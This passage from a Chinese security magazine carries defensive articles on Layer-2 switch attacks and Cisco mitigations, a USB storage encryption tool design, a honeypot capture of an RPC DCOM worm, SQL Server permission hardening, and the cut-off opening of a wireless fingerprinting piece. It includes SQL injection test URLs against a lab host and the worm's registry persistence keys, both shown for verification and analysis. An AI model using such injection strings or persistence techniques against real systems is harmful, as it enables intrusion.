R1 被视为攻击者；当 R1 通过修改伪造等手段把数据包修改为 `802.1Q(vlan10)|802.1Q(vlan20)` 发送至 SW1，SW1 收到这个包之后会将其头部的标签 802.1Q 去掉并允许其在 vlan10 中传播，这样就只剩下 `802.1Q(vlan20)`，然后把这个信息传递给 SW2，SW2 收到后也把 802.1Q 这个标签去掉，这样剩下的信息就可以在 vlan20 中传递了，这样就可以访问 vlan20，达到了入侵的目的。解决这种攻击的方法有两种：一种是将 native VLAN 设置成没有用户存在的 VLAN，也就是说将图 5 中的 vlan10 设置成别的；总之使其这个 VLAN 跟 R1 所在的 VLAN 不同就可以了。另一种是通过输入 `vlan dot1q tag native` 这条命令，使得所有的 native VLAN 都打上标签，这样就不会去掉帧中的标签了。

##### 关于 DHCP 攻击

首先看一下 DHCP 的工作原理，如图 6 所示。攻击方法有两种，分别为 DHCP 饿死攻击和 DHCP 欺骗攻击。


- (1) DHCP 饿死攻击。说白了很简单，就是攻击者发送很多 DHCP Discover 包耗尽 DHCP 服务器的 IP 地址，原理如图 7 所示。


- (2) DHCP 欺骗攻击，原理如图 8 所示。解决方法如图 9 和图 10 所示。对于 DHCP 饿死攻击的解决方法是使用端口安全；对于 DHCP 欺骗攻击的解决方法是使用 DHCP snooping。


##### Mitigating DHCP Attacks


图9

##### Mitigating DHCP Attacks


图10

道理很简单，就是将交换机的端口分为信任端口和非信任端口，只有信任端口才可以回复 offer 包，管理员只需要将连接 DHCP 服务器的端口指定为信任端口就可以了。终端用户端口（非信任端口）只能够发送 DHCP 请求。

交换机支持在每个 VLAN 基础上启用 DHCP 监听特性。在启用选项 82 的情况下，在将 DHCP 请求转发给相应 DHCP 服务器之前，Supervisor Engine 将把入站模块、端口、VLAN 和交换机 MAC 地址等信息增加到数据包中。

这里建议在合法 DHCP 服务器端口以及接入层交换机和分布层交换机之间的互联端口（能够提供到达 DHCP 服务器的路径）上启用信任端口；还建议将接入交换机上的终端用户工作站端口保持为非信任端口状态。我们可以简单地配置如下：

```bash
ip dhcp snooping
ip dhcp snooping vlan 10
ip dhcp snooping information option
int fa 0/0
 ip dhcp snooping trust
 ip dhcp snooping limit rate 100
 //配置DHCP请求限速避免DHCP DoS攻击
```

关于 DHCP 的绑定表如图 11 所示。这张表是由 DHCP Snooping 产生的，有以下几个要素：MAC 地址、IP 地址、VLAN 号、端口号、租用和绑定类型等信息。它是解决 ARP 攻击、欺骗攻击的前提。其查看命令为“show ip dhcp snooping binding”。

##### DHCP Binding Table


图11

## 这是 ARP 以及针对 ARP 的攻击

ARP 分为 4 种类型，分别为 ARP、RARP、无故 ARP 和代理 ARP。ARP 攻击的原理如图 12 所示，所有流向网关的流量都会流到攻击者 B，这样就达到了窃取数据的目的。目前的解决方法是动态 ARP 检测（Dynamic ARP Inspection），如图 13 所示。

##### ARP Attack in Action


图12

##### Countermeasures to ARP Attacks: Dynamic ARP Inspection


图13

动态 ARP 检测会检查 DHCP Snooping 表中的 IP 地址和 MAC 地址字段，如果从这个接口流入的帧的源 MAC 地址和源 IP 地址符合这个绑定表中的数据就转发，如果不符合就丢弃并记录违规行为，而且这个违规端口将进入 err-disable 状态。

在配置 DAI 之前，需要配置 DHCP 监听，如图 14 所示，还可以静态绑定。如果没有配置 DHCP 监听特性的话，DAI 将丢弃任何具有无效 MAC 地址/IP 地址绑定的 ARP 数据包。DAI 也可以限定入站 ARP 数据包的速率，如果超过，端口将进入 err-disable 状态。


图14

正确使用 ARP 检测的注意点主要有：动态 ARP 检测通过检查 ARP 的 request 和 response 消息来阻止 ARP 攻击；必须要先配置 DHCP Snooping，当 DHCP Snooping 配置了一段时间后，也就是 DHCP Snooping 的表已经形成了，再开启 DAI；DHCP Snooping 表是由 DHCP request 消息构成的，也可以使用静态配置条目。

##### 关于欺骗攻击（Spoofing Attacks）

欺骗攻击分为两类，即 MAC Spoofing 和 IP Spoofing，如图 15、图 16 和图 17 所示。解决方法是使用 IP Source Guard（IP 源防护），如图 18 所示。


图15


图16


图17


图18

IP Source Guard 和 DAI 是有明显区别的，DAI 只是检查 ARP 包，IP Source Guard 则检查所有的包。

IP Source Guard 的注意点主要有：IP Source Guard 使用前必须使用 DHCP Snooping；IP Source Guard 是基于端口进行配置的；IP Source Guard 用来检查表中的 MAC 地址是从 DHCP Request 包中学习到的。

IP Source Guard 只支持第二层端口，包括接入端口和干道端口。对非信任二层接口存在两种级别的 IP 流量安全过滤，一是源 IP 地址过滤，根据源 IP 地址对 IP 流量进行过滤；二是源 IP 和 MAC 地址过滤，根据源 IP 地址和 MAC 地址对 IP 流量进行过滤。

IP Source Guard 的配置如图 19 所示。如果手动配置 IP 源绑定，需要使用全局命令：`ip source binding mac-address vlan vlan-id ip-address interface interface`，推荐在多层交换网络的接入层交换机启用 IPSG。


关于二层安全就先讲解这么多，由于本人水平有限，文中若有不足之处还请广大读者指正，如有任何问题，欢迎登录黑防论坛与我讨论。


前置知识：无  
关键词：文件系统、存储、加密

#### 基于文件系统的移动存储介质安全管理

文／贾开洪 刘海燕

移动存储设备品种繁多，使用方便，便于携带，在人们的日常生活中起着越来越重要的作用。众所周知，现在各种文档大都是以电子形式存在，移动存储设备也充当了电子文件的最好载体。人们可以方便地使用移动设备存储文件，从计算机中复制文件，但在这个过程中，文件的安全性得不到保障，很容易造成泄密事件的发生。

本设计是在分析 Windows 系统对移动存储介质的管理方式以及常用移动存储介质分区结构的基础上，设计实现了一个集成注册管理、合法性审核、设备加解密、文件加解密、U 盘控制和日志记录于一体的移动存储介质管理软件。通过拦截广播消息实现对移动存储设备的检测，通过分析引导区数据判断设备的合法性；通过对 MBR 区、文件目录、FAT 表和数据扇区起始字节进行处理实现对文件或设备加密，使得即使利用数据恢复软件也无法看到有效数据；利用 U 盘上操作系统不可使用的扇区存储软件数据和日志信息，以节约存储空间和便于日志审查。

## U盘介质及其加密方式分析

### 1. FAT 文件系统

FAT 文件系统是应用非常普遍的文件系统。Microsoft 成功设计并运用了它，即使在今天 NTFS 铺天盖地袭来时，FAT32 依然占据着 Windows 文件系统中的重要地位。FAT32 文件系统将逻辑盘的空间划分为三部分，按物理结构位置依次是引导区（BOOT 区）、文件分配表区（FAT 区）、数据区（DATA 区），如图 1 所示。引导区由 1 个引导扇区和 31 个保留扇区组成，主要用于存储该逻辑盘的重要参数和系统引导记录；文件分配表区由两个相同的 FAT 表组成，用于记录逻辑盘各簇的使用情况和坏簇、脏簇情况；数据区由根目录簇和其它子目录及所有文件组成，此外还包含不足以划分簇的扇区。引导区和文件分配表区又合称为系统区。多余的空闲扇区和保留扇区一直未被使用，这恰好给一些安全软件提供了存储数据的场所而不占用数据区空间。


图1

### 2. 存储介质分析

对于一个物理存储介质来讲，整个物理空间可以分为主引导记录区、文件系统区、剩余扇区。操作系统使用的主要是文件系统区，剩余扇区可以用来存储厂家的信息[2,3]。对操作系统而言，由于文件系统之外的扇区是不可识别的，所以可以将 U 盘管理软件存储在这个独立于文件系统的存储区域。即使在文件系统区，也是有很多未使用空间。目前 U 盘的文件系统主要为 FAT 文件系统，由启动区、FAT 区、根目录区、数据区和保留区组成。FAT32 系统中启动区除引导扇区和备份扇区外，还有很多扇区均未定义，比如：FAT32 系统设计的最大容量是 16TB 空间，而一般的移动介质不超过 500GB，所以 FAT 区也有很多可利用空间。另外，格式化文件系统时均不对保留扇区进行覆盖，所以保留扇区也可以用于存储软件数据。

### 3. 存储介质的加密方式

目前对移动存储介质的加密通常是对文件名、后缀名等进行修改、移动、加密和隐藏，一般并不改变文件的内容，所以对于懂得其原理的人和电脑高手，要破解并非难事[4]。根据上面对移动存储设备的分析，对 U 盘及其文件的加密还可以采用如下方式：

- 1. 对启动扇区加密处理，这样可以使电脑无法识别 U 盘，当然也就无法读取文件。  
- 2. 对 FAT 区加密处理，加密文件的簇链关系，能起到与格式化 U 盘相同的效果，电脑识别后也无法正常打开文件。  
- 3. 对根目录加密，以密文的方式隐藏文件信息，可以实现文件的深层隐藏，即使用扇区编辑工具也无法识别出文件的具体信息。  
- 4. 对文件数据所在的每个簇的第一个扇区起始几个字节进行处理，可以实现文件的终极隐藏，即使用数据恢复软件也无能为力。

通过这些方式对文件结构进行加密，可以大大提高文件的安全性。如果综合运用这些方法，还可以获取更高的安全性。

##### 移动存储介质安全管理系统的设计

根据 Windows 系统对移动存储介质的处理方式以及 U 盘结构，本文设计了一个移动存储介质安全管理系统。该软件分为管理员端和用户端，由设备注册模块、设备审核模块、加解密模块、日志记录模块、U 口控制模块和附加功能模块组成。系统的结构如图 2 所示。

- 1. **设备注册模块**：采用数据库技术，注册移动存储设备和使用者的信息，并在移动存储设备中设置已注册标志，使移动存储设备成为合法设备，可以通过合法性审核模块的审核。  
- 2. **合法性审核模块**：主要采用截获广播消息技术和注册表编程技术。通过截获 DeviceChange 消息，调用消息响应函数处理设备插入事件；如果设备为移动存储介质则检查注册标志信息，对未注册的设备进行加密锁闭并弹出，在设备激活并注册后才能继续正常使用。  
- 3. **加解密模块**：主要运用磁盘操作函数和 AES 加密算法对数据进行处理，包括设备整体加解密和文件加解密两部分。设备加密采用对 MBR 区和文件系统的 FAT 区数据进行加密处理；文件加密采用对文件目录项和数据起始扇区的前几个字节进行加密处理。用户可以设置加密口令，口令加密后保存在特定区域，解密时验证密码后自动解密。  
- 4. **日志审核模块**：实时记录对移动存储设备的操作和对本软件的使用情况并保存在移动存储设备和电脑中。  
- 5. **U口控制模块**：本模块采用注册表编辑技术管理计算机的 USB 接口，包含启用功能和禁用功能。禁用 USB 接口可以禁止电脑识别移动存储设备，启用 USB 接口可以在验证权限后恢复 USB 接口的正常使用。  
- 6. **附加功能模块**：本模块采用定时器、注册表编辑技术和多线程技术实现进程保护、后台运行和开机自启等功能。采用多线程保护机制防恶意关闭本系统，后台运行提高了系统的方便性，便于用户处理其他事务。


图2

##### 移动存储介质安全管理系统的实现与使用

本系统采用 Microsoft Visual C++ 6.0 开发环境，在 Windows 2003 版本以前均通过功能测试。软件安装程序中自带基本的运行配置文件，经测试未发现与已知常用软件和杀毒软件有冲突。下面介绍软件的主要功能。

- 1. 系统主界面（如图 3 所示）。


本系统包括管理员端和用户端两部分。移动存储设备在管理员端注册后才能在安装本软件的计算机上使用，以达到内外网存储设备分离以及涉密存储设备和非涉密存储设备分离的目的。

- 2. 设备注册模块：运行管理员端，登录管理员账号后即可看见注册界面（如图 4 所示）。系统具有有效信息检测机制，用户输入注册信息并确认后，系统自动检测信息合法性，通过检测即可完成本移动存储设备的注册。


另外，本模块还有激活功能，未注册而非法在本计算机上使用的被锁闭移动存储设备可通过本功能对设备激活解锁。解锁后的移动存储设备可以在其他计算机上使用。

- 3. 合法性审核模块：审查新插入的移动存储设备注册情况。对未注册的移动存储设备锁闭，即使拔下插入其他计算机也无法使用，必须由管理员用本软件激活（如图 5 所示）。本模块在用户端和管理员端均有设置。该功能可防止带有木马的移动存储设备窃取电脑中的数据。


- 4. 加/解密模块：对设备和文件的加/解密是本系统的核心功能之一。单击“设备安全”按钮进入本模块，选择加密种类，可对设备或者文件进行加/解密。

设备加/解密如下所示：选择设备加密后，文件选择部分变为不可用，设置口令并加密成功后设备自动弹出；再次插入本移动存储设备，系统会提示未格式化或者未找到磁盘（如图 6 所示）。


图6（续）

文件加密如下所示：选择文件加密后，选中待加密设备中的文件即可对文件加/解密。为便于用户识别，加密前后的文件名不改变，而只对文件的后缀名、簇链关系和簇开始字节加密。加密前后文件如图 7 所示。

其他的附加功能还有进程保护、开机自动、后台运行等。当软件被恶意关闭后，进程保护模块自动启动本系统，选择隐藏软件可以使软件在后台运行，通过热键可以显示软件界面。

##### 小结

本系统通过注册、审核和加密功能实现了对移动存储设备的管理和安全控制，程序本身运行占用系统资源小，不影响系统的运行速度。系统中所有涉及的密码设置均采用了弱口令限制机制，加强了口令的安全性。多种加密算法和加密方式的结合使用，使得数据不被窃取，即使被窃取后数据也不可用。但是，作为一种软件防护措施，本系统有其自身的不足，若能与其他固化硬件防护机制结合，将能提供更好的安全防护能力。


图7

- 5. U口控制模块：主要用于对 USB 接口的控制，单击“禁用”按钮可以实现禁用 U 口，单击“启用”按钮，提示输入启用密码，验证成功后启用 U 口。

### 参考文献

- [1] 马林编. 数据重现——文件系统原理精解与数据恢复最佳实践. 北京：清华大学出版社，2009
- [2] FAT32 文件系统及目录结构. 2009-05-20. http://bbs.51cto.com/thread-703707-1.html
- [3] 陈立平. 基于 U 盘 FAT32 文件系统的分析. 沙洲职业工学院学报，2009(4)
- [4] 万方数据. 移动存储介质安全管理技术现状. 2009-06-17. http://ec.yidaba.com/200906/17121111006100100000025996.shtml

前置知识：无  
关键词：入侵、蜜罐、虚拟机。

#### 肉鸡还是陷阱：巧借 VMware 逆向分析入侵过程

文/图 Winbo


近年来《无间道》《潜伏》等间谍类题材吸引了许多人的目光，也给人们展示了一个真真假假、虚虚实实的现实世界。不过，在网络世界里，也在时刻上演着这样的虚幻故事。比如要维护网……络安全，首先必须了解系统存在的漏洞和缺陷，了解攻击者的意图、技术、技巧等。但是，如同小偷不会告诉你偷了哪些东西，攻击者也不可能会告诉你详细的入侵过程。如今，随着虚拟化技术越来越受欢迎，通过蜜罐技术了解攻击工具和攻击策略也开始受到网络管理者的青睐。下面，将借助于 VMware 虚拟化软件打造网络版“余则成”，构建“间谍式”蜜罐并联入互联网，通过该蜜罐工具捕获一些攻击行为，通过对这些攻击案例的深入分析，了解攻击者进行非法活动的整个过程以及所使用的攻击工具和方法。

#### 蜜罐呈现：翱翔间谍的“十八般武艺”

一个精明的间谍自然有十八般武艺，而“蜜罐技术”则是一种对攻击者进行识别并“瓦解”的技术。蜜罐技术通过部署作为诱饵的主机、网络服务以及信息，诱使攻击者进行攻击，减少对实际系统造成安全威胁。更重要的是，蜜罐技术可以对攻击行为进行监控和分析，了解攻击者所使用的攻击工具和攻击方法，推测攻击者的意图和动机。这样，就能够追踪攻击者来源，对其攻击行为进行审计和取证，从而能够让防御者清晰地了解他们所面对的安全威胁，并通过法律手段去追究攻击者的责任，或者通过技术和管理手段来增强对实际系统的安全防护能力。

那么间谍的“十八般武艺”通常有哪些呢？回到网络世界，蜜罐关键技术包括以下几类。

- 1. **数据捕获技术**：手段高明的入侵者攻入系统后，常常会试图更改甚至销毁目标主机上的各种记录。因此，数据捕获主要是在日志文件中查找操作记录。通常情况下，日志文件包括防火墙日志、IDS 日志和蜜罐主机的系统日志，即“三重捕获”。其中，防火墙在网络层记录所有出入蜜罐的连接，并且及时向系统管理员发出警告信息；IDS 在数据链路层对蜜罐中的网络数据流进行监控、分析和抓取，以便将来能够重现攻击行为并在发现可疑行为时报警；蜜罐主机除了使用操作系统自身提供的日志功能外，还可以利用第三方软件加强日志功能，传输到安全级别更高的远程日志服务器上备份。
- 2. **网络欺骗技术**：为了使蜜罐对入侵者更有吸引力，需要采用各种欺骗手段来诱骗攻击者。例如在欺骗主机上模拟一些网络攻击者最“喜欢”的端口和漏洞。蜜罐主要的网络欺骗技术包括模拟服务端口、模拟系统漏洞和应用服务、IP 空间欺骗、流量仿真、网络动态配置、网络服务、蜜罐主机。其中，网络流量仿真是常用来迷惑并吸引攻击者的方法，此外，还可以采用实时方式或重现方式复制真正的网络流量，或者从远程产生伪造流量，诱骗入侵者。
- 3. **攻击报警和数据控制**：该技术保证一旦蜜罐被攻陷，网络攻击者不会利用蜜罐攻击其他系统并造成危害。该技术的难点是如何在控制住数据流量的同时又不引起攻击者的怀疑。蜜罐允许他们做大部分的“合法”事情，但是对攻击其他系统的“需求”（比如发起拒绝服务攻击、对外部扫描以及使用漏洞攻击他人的行为）则一概禁止。通常采用多层次控制，避免单点失效风险；并进行人工实时监控，一旦入侵者活动超出受控范围而产生威胁时，马上终止所有连接。
- 4. **端口重定向技术**：端口重定向技术就是在工作系统中模拟一个非工作服务。为了吸引网络攻击者上钩，一个较好的办法就是构建一个复制的模拟网，然后利用防火墙的端口映射或重定向技术，将它重定向到一个蜜网 IP 地址中。可以在不被攻击者察觉的情况下监视他们的行动，得到攻击者所使用的工具、采用的方式、通信方法、组织机构和入侵动机等信息，同时耗费他们的精力。

模仿余则成的卧底神功，将蜜罐系统模拟成一个操作系统，通过开放一些端口和弱口令并设定出相应的回应程序，如 Telnet 密码暴力破解、添加新用户、权限提升、删除添加文件，可将其设定为易攻破的主机。

#### 愿者上钩：巧借 VMware 抓包分析入侵痕迹

与“多启动”系统相比，VMware 不需要重新开机就能在同一台电脑使用好几个操作系统。VMware 可以将电脑上的一部分硬盘和内存进行组合，每台机器拥有自己独立的 CMOS、硬盘和操作系统。我们可以像使用普通机器一样对它们进行分区、格式化、安装系统和应用软件等操作，还可以将这几个操作系统联成一个网络。这样，一台电脑就可以轻松虚拟出若干台机器。在测试过程中，VMware 需要一个操作系统作为最基本的平台，即 HOST OS（主系统），在 HOST OS 上运行的其他系统都叫 GUEST OS（子系统或客户系统）。

##### 搭建虚拟主机测试环境

新建一个虚拟机后，除了使用默认值，用户还可以通过配置文件修改参数。这个配置文件实际上就相当于新电脑的“硬件配置”。用户可以在配置文件中决定虚拟机的硬盘、内存多大，是否有并口串口，是否有网络等。现在，首先利用 VMware 虚拟出一个没有安装最新漏洞补丁的操作系统，然后构建一个具有多个节点的局域网，进行网络安全测试。参考步骤如下。

- 步骤1：安装虚拟操作系统。使用虚拟机软件 VMware 安装操作系统软件，这里选择版本稍低的 Windows 2000 操作系统和 SP4 补丁。
- 步骤2：安装系统补丁程序和杀毒软件。给宿主机系统装上补丁程序，防止宿主机被攻破，并安装杀毒软件，升级到最新的病毒库，启动实时监控。
- 步骤3：安装日志服务器。将蜜罐上的应用程序日志、系统日志、安全日志都发送到日志服务器，可真实地了解到蜜罐的运行情况，从中发现攻击者的蛛丝马迹。

例如在主机上安装日志服务器 Kiwi Syslog Daemon 8.3.40（下载地址为：http://www.onlinedown.net/soft/20742.html）。Kiwi Syslog Daemon 是一个装在服务器上的应用软件，可以实时显示通过防火墙的所有访问信息，并可以以文件的形式用日期命名保存到硬盘，以供查看。同时，还可以在虚拟主机上安装日志记录工具，把系统日志发送到日志服务器上，如 evtsys（https://engineering.purdue.edu/ECN/Resources/Documents/UNIX/evtsys）。


图1

- 步骤4：安装 CMD 记录软件。cmdlog 的特点是记录 cmd.exe 的程序，且不在进程列表中显示出来，对于实时监控黑客在本机上的攻击行为十分有效。软件下载地址为 http://www.yeshack.com/Soft/200409/104.html。解压后，把文件拷贝到 C:\Windows\System32 目录下。打开 Windows 命令提示符，输入以下参考命令：`C:\>evtsys -i -h 192.168.1.100`，其中 `-i` 表示安装成系统服务，`-h` 表示指定 log 服务器的 IP 地址。
- 步骤5：安装数据包捕获软件。例如可以安装 Sniffer Pro v4.7.530（http://down.chinaz.com/soft/5542.html）；也可以安装网络数据包嗅探软件 SmartSniff（http://www.52z.com/soft/12891.html）。通过捕获并分析虚拟机上流进和流出的网络数据包，了解攻击者的攻击技术、利用的系统漏洞和使用的工具等。

这样，通过“三重捕获”的层层防范措施，可以确保在不被入侵者发现诱骗的前提下，尽可能多地捕获攻击行为信息，包括入侵者的按键记录、CPU 利用率、进程列表、使用过的各种协议数据包内容等，同时充分保证捕获信息的完整和安全。此外，还可以分析攻击者所要进行的下一步行为。

步骤1：开始监测扫描行为。搭建好蜜罐系统的虚拟主机后，联上互联网，通过嗅探软件发现不时有主机对蜜罐进行基于 135 端口扫描，有时伴随着基于 NetBIOS 扫描（137、139 端口），说明网络中存在大量随机扫描。

步骤2：对攻击行为进行捕获。现在，一位来自外网的不速之客开始对蜜罐进行扫描和攻击。从分析数据来看，主要是基于 135 端口的扫描。接下来攻击者对蜜罐的 135 端口进行攻击，建立 RPC 远程连接，并向蜜罐传送带有恶意代码的数据包。捕获的数据包如图2所示。


步骤3：漏洞分析。这是针对 Windows RPC DCOM 接口进行缓冲区溢出漏洞的攻击，漏洞可通过 135（TCP/UDP）、139、445、593 等端口发起攻击。由于 Windows 的 DCOM 实现在处理一个参数时没有检查长度，通过提交一个超长（数百字节）的文件名参数可导致堆溢出，从而使 RPCSS 服务崩溃。精心构造提交的数据可在系统上以本地系统权限运行代码。攻击者可在系统中采取任何行为，包括安装程序、窃取、更改或删除数据，或以完全权限创建新账号。

步骤4：攻击者对蜜罐的 RPC DCOM 接口缓冲区溢出攻击成功后，蜜罐系统执行 RPC 数据包中附带的恶意代码，该代码检查本机是否已经被感染或被种下后门程序。经检查本机还没有被感染，于是该程序就向攻击者请求发送蠕虫病毒程序 Winregs32.exe。随后，攻击者用 FTP 协议向本机传送该蠕虫病毒。下载完毕后，该蠕虫病毒被立即执行，首先向 DNS 服务器查询 IP 地址，接着与该主机建立 IRC 连接。捕获到的数据如图3所示。


步骤5：入侵行为分析。IRC 连接成功后，主机通过 IRC 向该蠕虫病毒发送一条指令，让蜜罐系统建立 150 个线程扫描某个网络段上的所有主机，寻找存在 135 端口漏洞的主机。之后，蜜罐主机开始不间断地扫描某个网络段上的所有主机，寻找有 135 端口漏洞的主机，CPU 利用率达到 100%，大量消耗系统资源。到此为止，蠕虫已完成入侵、感染蜜罐系统，并立即执行。

通过对发送到日志服务器上的日志进行分析，得出该蠕虫病毒首先将自己拷贝到 `%system%\Winregs32.exe` 下，注册表的列表项如下：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\Software\Microsoft\OLE
HKEY_CURRENT_USER\SYSTEM\CurrentControlSet\Control\Lsa
```

```
"MsWindows SysDate" = "Winreg32.exe"
```

现在，Windows 启动时就会自动运行该病毒程序，然后扫描网络中的其他主机，且利用 TCP 端口 135 的 Microsoft Windows DCOM RPC 接口缓冲溢出漏洞攻击其他有该漏洞的主机并复制自己，这就是该蠕虫病毒具有自动攻击性、自我繁殖的原因。

现在，你可能在思考《潜伏》中李涯也许是不聪明的，因为余则成巧妙拖延了李涯对自己的攻击，而且让其浪费了大量时间，保护了自己的安全。作为近年来逐渐兴起的安全技术，蜜罐技术与《潜伏》等影视剧有着异曲同工之妙，并已成为网络管理员对付黑客和蠕虫病毒的有效工具之一。更重要的是，蜜罐技术还可以分析攻击者的攻击技术、攻击技巧、使用的工具等，从而更加主动、全面地保护网络的安全。

（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找。）

前置知识：无  
关键词：SQL 注入、数据库、用户权限

#### 修改数据库用户权限

##### 防范 SQL 注入

文/图  高志新


大家知道，为了利用 SQL 注入获取数据库信息或者获取 webshell，通常需要利用到数据库的一些系统视图、存储过程等，而能否访问这些信息，取决于 Web 应用连接数据库的用户权限。因此为了防止 SQL 注入，除了修改 Web 程序，数据库的权限设置同样重要。

默认的数据库用户都属于 PUBLIC 角色，而 PUBLIC 角色对大量系统视图、存储过程都有访问权限（select 或者 execute）。如果逐个视图、存储过程 revoke，一定非常费时费力。本文利用游标，结合 sys.sysobjects 系统视图和 sys.sp_helprotect 存储过程，快速修改数据库用户权限。

我们假设 Web 网站的虚拟目录名为 book，数据库名也为 book。


图2

##### 新建登录名

首先新建登录来替换原来高权限的应用连接数据库的用户（比如 sa、db_owner 角色用户等）。

新建登录名和 book 数据库下的用户：gzx（如图1所示），默认数据库选择 book，服务器角色不选择。此时 gzx 只是 public 角色（如图2所示）。

##### 添加用户的权限

新建的 gzx 用户只是 PUBLIC 角色，在 book 数据库上只有 connect 权限，如图3所示。


图1


图3

为了能够访问应用，必须授予对 book 数据库中我们应用需要访问表的 delete、insert、select、update 权限，具体应该授予哪些权限，视应用访问需要而定。如果只是读取数据库信息，无新增、修改，可以只给 select 权限，权限尽量小。

系统视图 sys.sysobjects 中包含了所有用户自建表的信息，因此通过以下语句可以查询到所有自建表：

```sql
select name from sys.sysobjects where xtype='U'
and category<>2
```

再利用游标，逐个表授予 gzx 用户 delete、insert、select、update 权限，SQL 语句如下：

```sql
use book;
create table #result(name nvarchar(200))
insert into #result select name from sys.sysobjects where xtype='U' and category<>2

DECLARE usertables CURSOR FOR
select name from #result order by name
DECLARE
@TableName nvarchar(200),
@FullCommand nvarchar(400)
OPEN usertables
FETCH NEXT FROM usertables INTO @TableName
WHILE (@@FETCH_STATUS = 0)
BEGIN
SET @FullCommand = 'GRANT delete ON [' + @TableName + '] TO gzx'
EXEC sp_executesql @FullCommand
SET @FullCommand = 'GRANT insert ON [' + @TableName + '] TO gzx'
EXEC sp_executesql @FullCommand
SET @FullCommand = 'GRANT select ON [' + @TableName + '] TO gzx'
EXEC sp_executesql @FullCommand
SET @FullCommand = 'GRANT update ON [' + @TableName + '] TO gzx'
EXEC sp_executesql @FullCommand
FETCH NEXT FROM usertables INTO @TableName
end
close usertables
deallocate usertables

drop table #result
```

##### 修改连接信息

接下来修改应用连接数据库信息，将连接用户替换成上述新建的 gzx（例如，如图4所示，修改 conn.inc 文件），这样应用就可以访问了。


##### 修改 PUBLIC 角色权限

虽然新建的 gzx 用户只是 PUBLIC 角色，但通过 sys.sp_helprotect 存储过程可以发现 PUBLIC 在各个数据库上都具有很多权限（如图5所示），甚至一些危险存储过程的 Execute 权限。而默认所有用户都有 PUBLIC 角色权限，因此必须将 PUBLIC 角色的一些权限 revoke 掉。我们先将 sys.sp_helprotect 存储过程的执行结果保存到一个临时表中，再利用游标将 PUBLIC 角色在各个对象上的权限 revoke 掉，SQL 语句如下：


```sql
create table #result(owner sysname null, object sysname null, grantee nvarchar(60) null, grantor sysname null, protecttype nvarchar(60), actionname nvarchar(60), columnname nvarchar(60))
insert into #result exec sp_helprotect

declare rs cursor
for
select owner,object,actionname from #result where grantee='PUBLIC' and protecttype='Grant' order by object
declare
@ownername sysname,
@objectname sysname,
@actionname nvarchar(60),
@FullCommand nvarchar(600)
open rs
fetch next from rs into @ownername,@objectname,@actionname
while (@@fetch_status=0)
...
begin
if @actionname='select'
begin
SET @FullCommand='REVOKE select ON ['+@ownername+'].['+@objectname+'] FROM public'
EXEC sp_executesql @FullCommand
end
else
begin
SET @FullCommand='REVOKE execute ON ['+@ownername+'].['+@objectname+'] FROM public'
EXEC sp_executesql @FullCommand
end
fetch next from rs into @ownername,@objectname,@actionname
end
close rs
deallocate rs

drop table #result
```

分别在 master、model、msdb、tempdb、book 数据库下执行上述 SQL 语句。

##### 权限验证

经过上述动作后，PUBLIC 角色的权限基本都已 revoke，gzx 用户只能 delete、insert、select、update 应用需要访问的表，其他权限基本没有了。为了保险起见，就一些 SQL 注入常用的视图、存储过程访问权限进行验证。

### 1. 验证系统视图

SQL 注入工具获取数据库信息一般需要利用到 sys.objects、information_schema.tables、sys.tables、sys.all_objects、sys.sysobjects、information_schema.columns、dbo.syscolumns、sys.columns、sys.syscolumns 等系统视图，我们在存在 SQL 注入的 URL 后面添加查询系统视图的 SQL 语句，验证这些视图是否可以访问：

```text
http://192.168.5.188/book/viewnews.asp?newsid=52 and (select count(name) from master.dbo.sysobjects where xtype=char(88))>1
http://192.168.5.188/book/viewnews.asp?newsid=52 and (select count(column_name) from information_schema.columns)>1
```

如图6所示，可以发现，上述 URL 已经不能访问，提示 500 错误。


图6

### 2. 验证数据库层面权限

SQL 注入中经常需要创建表，在 Microsoft SQL Server Management Studio 中以 gzx 连接新建查询，在 book 数据库下创建一个新表，验证 gzx 是否具有创建表的权限，结果如图7所示，说明 gzx 用户已无 create table 权限。


图7

### 3. 验证扩展存储过程

为了猜测 Web 目录，Windows 2000 下常常需要用到读注册表信息的扩展存储过程——sys.xp_regread，但现在很多都是 Windows 2003 系统，此时用到较多的是扩展存储过程——sys.xp_dirtree。

在 Microsoft SQL Server Management Studio 中以 gzx 连接新建查询，执行存储过程 master.sys.xp_dirtree，列举 C 盘下所有目录名，执行结果如图8所示，说明 gzx 用户已经无 sys.xp_dirtree 扩展存储过程执行权限。


图8

### 4. 验证存储过程

SQL 注入中经常用到扩展存储过程 master.sys.xp_cmdshell，而在 MS SQL Server 2005 中默认已经阻止了对该扩展存储过程的访问，因为“此组件已作为此服务器安全配置的一部分而被关闭”。如果想恢复访问，需要用到存储过程 master.sys.sp_configure。

在 Microsoft SQL Server Management Studio 中以 gzx 连接新建查询，执行存储过程 master.sys.sp_configure，尝试修改配置，结果如图9所示，系统拒绝了对 master.sys.sp_configure 的执行权限。


图9

经过上述修改，Web 网站的数据库连接用户权限已经严格限制为只能 delete、insert、select、update 一些指定的表，一些 SQL 注入需要用到的系统视图、存储过程等访问权限都已拒绝，从而一定程度上达到防止 SQL 注入的效果。

前置知识：无

关键词：无线、指纹识别

#### 无线网络设备指纹识别


文/图 杨哲 [Longas][ZerOne]

一直以来，虽然有很多工具和资料都在讲述 OS 的指纹识别，但并没有太多的资料在讨论无线网络设备的指纹识别，而具体型号的识别将有助于黑客实施针对性的漏洞攻击或者更为深入的渗透。以前某个参与扫描器开发的朋友向我问及了这方面，也有一些读者给我写信说是找不到这方面的资料，说实话我觉得这些东西光靠问是永远也学习不到实际技术的，不过被催问得多了还是写下了此文。这篇文章并不是从底层那样枯燥分析的，也希望能起到引导作用。

##### 主流的 OS 指纹识别技术

提到指纹识别，我想很多朋友第一时间会想起 Nmap 这款工具的独特能力，还有些朋友可能还会想起 p0f、Xprobe2 等工具。这些极具代表性的工具可以说都代表了目前主流的主动式和被动式 OS 指纹识别技术。下面来分别看看主要的技术原理及实现。

### 1. 主动式指纹识别

